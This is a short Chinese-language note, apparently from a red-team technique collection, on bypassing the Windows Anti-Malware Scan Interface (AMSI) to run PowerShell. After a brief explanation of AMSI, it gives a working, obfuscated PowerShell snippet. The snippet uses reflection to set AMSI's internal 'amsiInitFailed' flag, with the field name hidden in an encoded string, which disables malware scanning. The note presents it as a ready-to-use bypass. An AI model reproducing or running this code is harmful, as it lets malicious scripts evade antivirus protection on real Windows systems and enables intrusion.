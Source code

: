 ## 绕过ASM执行powershell脚本  

> AMSI的全称是反恶意软件扫描接口（Anti-Malware Scan Interface），是从Windows 10开始引入的一种机制。AMSI是应用程序和服务能够使用的一种接口，程序和服务可以将“数据”发送到安装在系统上的反恶意软件服务（如Windows Defender）。  

在基于场景的资产评估或者基于数据的红队评估中，许多渗透测试人员都会与AMSI打交道，因此对相关功能也比较了解。AMSI能够提供更强大的保护，可以为反恶意软件产品提供更透彻的可见性，因此能防御攻击过程中常用的一些现代工具、战术以及过程（TTP）。最相关的操作就是PowerShell无文件payload，在实际环境中，攻击者及渗透测试人员都在使用这种技术来完成任务。  

正因为此，AMSI是大家广泛研究的一个主题，能否绕过AMSI已经成为攻击能否成功的决定性因素。在本文中，我们介绍了AMSI的内部工作原理，也介绍了一种新的绕过方法。  

关键powershell代码如下：  
```powershell
$a =[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
$h="4456625220575263174452554847"
$s =[string](0..13|%{[char][int](53+($h).substring(($_*2),2))})-replace " "
$b =$a.GetField($s,'NonPublic,Static')
$b.SetValue($null,$true)
```

效果如图：  
![AMSI_TN_bypass](../img/AMSI_TN_bypass.jpg)  

代码来自：`https://pastebin.com/sQFWANwr`   
